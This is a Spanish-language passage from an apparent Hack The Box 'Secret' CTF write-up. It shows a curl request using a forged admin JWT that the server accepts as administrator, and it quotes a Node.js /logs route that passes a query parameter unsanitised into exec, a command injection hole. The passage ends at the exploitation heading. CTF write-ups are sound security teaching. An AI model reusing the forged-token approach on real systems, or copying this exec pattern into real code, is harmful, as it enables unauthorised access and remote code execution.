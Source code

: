 Volvamos a probar con este nuevo token para ver si es válido y nos loguea con privilegios.

```console
p3ntest1ng:~$ curl -s -X GET "http://secret.htb:3000/api/priv" \
                -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmYTQ5NTQyZTU5NjA0NWJjZTAzNWEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAcGVudGVzdGluZy5uZXQiLCJpYXQiOjE2NDgzMzg0MjV9.F4KOyd5y9h6hTc32fCP2eUHq89jQb2ZoW3hJDGJsScA" | jq
{
  "creds": {
    "role": "admin",
    "username": "theadmin",
    "desc": "welcome back admin"
  }
}
```

Perfecto, el sistema nos reconoce como administrador. Ahora vamos a analizar otro JavaScript, el archivo **`private.js`**
<br/>
Si nos fijamos en esta parte, vemos que la ruta **`/logs`** es vulnerable a [Remote Code Execution (RCE)](https://beaglesecurity.com/blog/vulnerability/remote-code-execution.html):

```javascript
...[snip]...
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
...[snip]...
```

## Fase de Explotación
